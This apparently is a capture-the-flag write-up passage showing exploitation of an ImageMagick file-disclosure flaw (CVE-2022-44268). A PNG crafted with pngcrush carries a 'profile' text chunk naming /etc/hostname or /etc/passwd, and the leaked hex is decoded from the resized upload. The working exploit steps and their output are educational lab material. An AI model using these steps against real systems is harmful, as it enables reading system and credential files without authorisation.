 ### ImageMagick Information Disclosure

#### Manual

Additionally, the `magick` executable gives me the ImageMagick version being used for the resizing: 7.1.0-49 beta.

```bash
> ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

While searching for exploits for the identified version of ImageMagick, I discovered an information disclosure vulnerability, [CVE-2022-44268](https://web.archive.org/web/20230331125510/https://www.metabaseq.com/imagemagick-zero-days/). In summary, if ImageMagick has permissions to read a specific file, this vulnerability allows embedding the content of that file in the result of an ImageMagick operation.
The exploitation involves using a tEXt data chunk with the keyword `profile`, followed by the filename as a string. Then, ImageMagick interprets this string as a file to be loaded due to the `FileToStringInfo` method, potentially leading to the disclosure of sensitive information.

I can use `pngcrush` to include the `tEXt` data and confirm its presence using `exiftool`. Subsequently, I uploaded the crafted image to Pilgrimage and retrieved the hex data from the `Raw Profile Type` tag of the resized image, effectively exploiting CVE-2022-44268.

```bash
❯ convert -size 32x32 xc:white exploit.png
❯ pngcrush -text a "profile" "/etc/hostname" exploit.png
  Recompressing IDAT chunks in exploit.png to pngout.png
   Total length of data found in critical chunks            =        72
   Best pngcrush method        =   1 (ws 11 fm 0 zl 4 zs 0) =        72
CPU time decode 0.001117, encode 0.001312, other 0.018197, total 0.021457 sec

❯ exiftool -profile pngout.png
Profile                         : /etc/hostname
```

```bash
❯ exiftool "-*Profile*" 656346847a76b.png
Raw Profile Type                : ..      11.70696c6772696d6167650a.

❯ echo '70696c6772696d6167650a' | xxd -p -r
pilgrimage
```

Similarly, I can dump users with a login shell by querying the `/etc/passwd` file.

```bash
❯ echo '726f6f743.....16c73650a' | xxd -r -p | grep sh$
root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
```
